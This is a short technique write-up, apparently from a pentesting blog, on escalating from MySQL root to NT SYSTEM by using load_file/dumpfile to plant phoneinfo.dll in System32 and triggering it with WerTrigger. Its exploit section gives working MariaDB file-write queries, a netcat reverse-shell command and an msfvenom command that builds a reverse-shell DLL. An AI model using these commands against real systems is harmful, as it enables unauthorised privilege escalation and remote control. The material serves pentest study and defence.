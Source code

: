 ```yaml
---
title: MySQL LPE to RCE via WerTrigger
published: true
---
```


# Overview

MySQL typically runs as a privileged user, such as the root account, making it a potential target for privilege escalation if not properly configured, such as having no password or a weak password for the root account. One method attackers can use to execute arbitrary commands as a privileged user is to exploit a malicious user-defined library. By uploading a malicious library to the plugin directory, attackers can define malicious functions and execute any command on the system with elevated privileges. Detailed information about this technique can be found [here](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql).

However, not every MySQL environment has an ideal plugin directory setting for such attacks, so alternative exploitation methods are required if we are to gain access to MySQL. Typically, logging in as a privileged user gives us read and write access to system files. We can abuse built-in functions such as `load_file` and `dump_file` to dump files into restricted directories, such as the system directory. This allows us to place a malicious DLL in the system folder and trigger it to escalate privileges and execute arbitrary commands as NT SYSTEM.

The `WerTrigger` technique involves placing a malicious phoneinfo.dll in the System32 folder and finding a way to trigger it without rebooting the system. According to [the WerTrigger repository](https://github.com/sailay1996/WerTrigger), this DLL is typically missing from the System32 folder, but is automatically loaded by Windows systems after a reboot if boot logging is enabled in Procmon. If we can bypass the reboot process and trick the system into loading a malicious phoneinfo.dll, we can gain a shell as the system user. Using Report.wer and WerTrigger.exe provided in the GitHub repository, we can trigger and execute arbitrary commands as SYSTEM. All of these actions can be performed using MySQL commands if we have privileged access. This allows us to escalate from the root user in MySQL to the SYSTEM user on the target machine.

# Exploit

We logged in as root and uploaded nc.exe to check if we have write permission. 

```jsx
ariaDB [mysql]> select load_file("C:\\\\test\\nc.exe") into dumpfile 'C:\\\\test\\ncat.exe';
```

![](../assets/images/2024-06-26-MySQL-LPE-to-RCE-via-WerTrigger/exploit.png)

Then upload phoneinfo.dll to System32.

```jsx
MariaDB [mysql]> select load_file('C:\\\\xampp\\htdocs\\phoneinfo.dll') into dumpfile "C:\\\\Windows\\System32\\phoneinfo.dll";\
```

In the same directory as Report.wer, We ran WerTrigger.exe(no output), then execute reverse shell payload. Now we are NT SYSTEM

```powershell
PS C:\test> .\WerTrigger.exe
C:\test\nc.exe 192.168.x.x 445 -e cmd
```

![](../assets/images/2024-06-26-MySQL-LPE-to-RCE-via-WerTrigger/WerTrigger1.png)

![](../assets/images/2024-06-26-MySQL-LPE-to-RCE-via-WerTrigger/WerTrigger2.png)

### Alternative:

We can also generate a reverse shell dll and name it as phoneinfo.dll. Then use WerTrigger.exe to trigger it.

```jsx
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.x.x  LPORT=445 --platform windows --arch x64 -f dll -o phoneinfo.dll
```